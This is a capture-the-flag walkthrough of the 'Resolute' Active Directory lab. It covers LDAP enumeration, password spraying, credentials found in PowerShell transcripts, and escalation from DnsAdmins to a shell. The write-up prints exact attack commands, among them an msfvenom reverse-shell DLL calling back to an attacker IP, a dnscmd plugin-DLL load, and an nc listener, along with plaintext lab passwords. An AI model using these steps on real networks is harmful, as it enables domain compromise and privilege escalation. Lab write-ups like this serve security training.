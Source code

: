Started with a nmap scan
```
53 DNS
88 Kerberos
135
139
389 LDAP
445
636
3268 LDAP
3269
5985
```
Domain `megabank.local` Hostname `RESOLUTE` 
Testing out LDAP we have anonymous bind and we got a list of users and looking in the account description one user has a password in there `marko:Welcome123!` but these creds don't work so checking the password against all the user names and got a valid login `melanie:Welcome123!` there also is no account lockout we need to get a bloodhound data im using rusthound to do this `rusthound --domain megabank.local -u melanie -p Welcome123! -z` bloodhound does not show anything but we can winrm into the host and we can get the user flag after looking around the file system for a while I ran a `ls -force` on the `C:\` drive and found a folder called `PSTranscripts` and inside there is a powershell history file and it has creds for the user `ryan` `ryan:Serv3r4Admin4cc123!` we can winrm into this account now and looking at the groups were apart of `DNS Admins` so we can use `dnscmd.exe` to get to admin user first we use msfvenom to make a dll file `msfvenom -p windows/x64/shell_reverse_tcp lhost=10.10.16.3 lport=443 -f dll -o 1.dll` then we need to start a smb server `impacket-smbserver s .` now we need to go to the host machine and do `dnscmd.exe /config /serverlevelplugindll \\10.10.16.3\s\1.dll` strart up are `rlwrap nc -lvnp 443` and then run these commands 
```
sc.exe \\resolute stop dns
sc.exe \\resolute start dns
```
now we have a shell as admin user 